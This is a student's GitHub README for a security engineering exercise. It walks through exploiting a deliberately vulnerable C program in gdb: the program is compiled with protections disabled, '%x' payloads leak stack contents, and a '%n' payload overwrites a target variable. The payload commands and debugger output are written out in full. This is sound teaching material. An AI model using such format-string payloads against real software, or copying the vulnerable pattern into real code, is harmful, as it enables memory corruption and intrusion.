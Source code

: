 # sec_engineering_exercises

## Format string exploitation example (Section 2.5)
1. Create a c file like, for example with vi: `vi vuln_s.c`
   Content for the file: [vuln_s.c](vuln_s.c) 

2. Set environment flags
`export CFLAGS="-m32 -fno-stack-protector -z execstack -fno-PIE -no-pie -g -std=c99"`
3. Compile the file with GCC to create an executable object
```
    gcc -g -o vuln vuln_s.c -m32 -fno-stack-protector -z execstack -fno-pie -no-pie -std=c99
```
or (Im not sure this worked for me, this doesn't work for me now so better to use the above)
```
   gcc -g -o vuln vuln_s.c $CFLAGS
```
4. Execute the file to ensure its working
```
   ./vuln test
```
Expected output: ![Alt text](image.png)

5. Open program in debugger
```
    gdb vuln
```
   Check the file was complied correctly for the debugger by running
   ```
      list
   ```
   You should see your code when you run that, if you don't something with flags went wrong.
   
6. Run the program with '%x' which will return data from the stack - the hexadecimal value of the stack
```
    run %x
```
Expected output: ![Alt text](image-1.png)

7. Add a breakpoint at line 14 (where the call is made from the **main** function to the **vuln** function)
```
    break 7
```
8. Run the program again
```
    run %x
```
Expected output:![Alt text](image-2.png)

9. Check the content on the %esp registers by running
```
    x/100x $esp
```
Should return: ![Alt text](image-3.png)

10. So the **str** is located that **0xbffff789** and the '**%x'** value **(0x4020e3fc)** at **0xbffff550**
    The distance between str and %x is **0xbffff789 - 0xbffff550 = 569** (https://www.calculator.net/hex-calculator.html?number1=bffff789&c2op=-&number2=bffff550&calctype=op&x=50&y=20)
    We want a number that is divisible by 4 (4 bytes) so will round 569 to 572 and then 572 / 4 = 143
    That means that the **'target'** variable is around 143 positions away from the start of the stack (in the bss section)
    We can run a command that will bring us hexadecimal values up 143 stack positions

11. **Try and fail**
    Start the new debugging of the program so you are not stopped by the break (there must be a way to remove the break ;)) (Use 'q' to quit and then start from fresh)
    `gdb vuln`
    Try 143 spaces and see if you can see **414141** (representation of AAAA) (the number might be different for you depending on the distance)
```
     run `(python -c 'print "AAAA" + ".%x." * 143+"%x"')`
```

The output will be something like this: ![Alt text](image-4.png)
    
Next I try to increase 143 to 146

```
     run `(python -c 'print "AAAA" + ".%x." * 146+"%x"')`
```
Output: ![Alt text](image-5.png)

Ok, I can now see the hexadecimal representation of AAAA but it is not at the end of the output, I need to get rid of the '00' so that my last 4bits point exactly to AAAA

Try with adding extra padding (BB):
```
    run `(python -c 'print "AAAA" +"BBB"+ "%x." * 146+"%x"')`
```
   ![Alt text](image-8.png)

   Note: I just rerun that and my working command looked like this:
```
   run `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
```
 and the distance calculation was 141 so I guess it is always slightly different but close enough

![image](https://github.com/osuzuki/sec_engineering_exercises/assets/8805399/ef7206d2-c61b-4c37-b1ac-513b8251635c)

   
My pointer is now pointing to the hexadecimal representation of 'AAAA' exactly 
```
(gdb)      run `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
Starting program: /home/olg4/learning/week22/vuln `(python -c 'print "AAAA"+"BB" + "%x." * 143+"%x"')`
AAAABB4020e000.0.4006920b.4020e3fc.0.bffff378.80484e7.bffff580.bffff424.bffff430.8048521.4000f9d0.bffff390.0.40051e91.4020e000.4020e000.0.40051e91.2.bffff424.bffff430.bffff3b4.1.0.4020e000.4000f77a.40027000.0.4020e000.0.0.851c2a68.70c7ad97.0.0.0.2.8048370.0.40014dc0.4000f9d0.804a000.2.8048370.0.80483a2.80484c3.2.bffff424.8048500.8048560.4000f9d0.bffff41c.40027940.2.bffff560.bffff580.0.bffff736.bffff749.bffffd35.bffffd69.bffffd8b.bffffd9a.bffffda7.bffffdc2.bffffe0d.bffffe20.bffffe2a.bffffe49.bffffe52.bffffe62.bffffe84.bffffec5.bffffed8.bffffee4.bffffef8.bfffff0c.bfffff1c.bfffff24.bfffff31.bfffff50.bfffffb8.0.20.4002bb50.21.4002b000.10.1f8bfbff.6.1000.11.64.3.8048034.4.20.5.9.7.40000000.8.0.9.8048370.b.81c.c.81c.d.7d0.e.7d0.17.0.19.bffff54b.1a.0.1f.bfffffd8.f.bffff55b.0.0.0.0.d000000.859f2e13.458bbd7d.1365d6c3.69e5b851.363836.6d6f682f.6c6f2f65.6c2f3467.6e726165.2f676e69.6b656577.762f3232.6e6c75.41414141
```

12. Find the address of the 'target' variable 
- To find the target variable type:
  ```
  p &target
  ```
- The output should be:![Alt text](image-7.png)

13. Do the hack 
- Replace the 'AAAA' in the run command with the address (its read from the back for fun): in my case it is `AAAA`->`"\x28\xa0\x04\x08"`
- replace last '%x' with '%n' (x is reading and n is writing)
- run it
```
    run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
```
Note: when I re-run this my command was this:
```
run `(python -c 'print "\x28\xa0\x04\x08"+"BB" + "%x." * 143+"%n"')`
```

Output:![Alt text](image-9.png)
14. Extra: see the value of target changing
- add break at line 5
- add break at line 15
- run run `(python -c 'print "\x28\xa0\x04\x08" +"BBB"+ "%x." * 146+"%n"')`
- on the first breakpoint type: print target - the value should be 0 
- type: '''next'''
- type: '''next'''
- print target - the value should be changed
![Alt text](image-10.png)


##Outstanding questions
- I still don't get the addresses and why if I change AAAA to the exact address it works



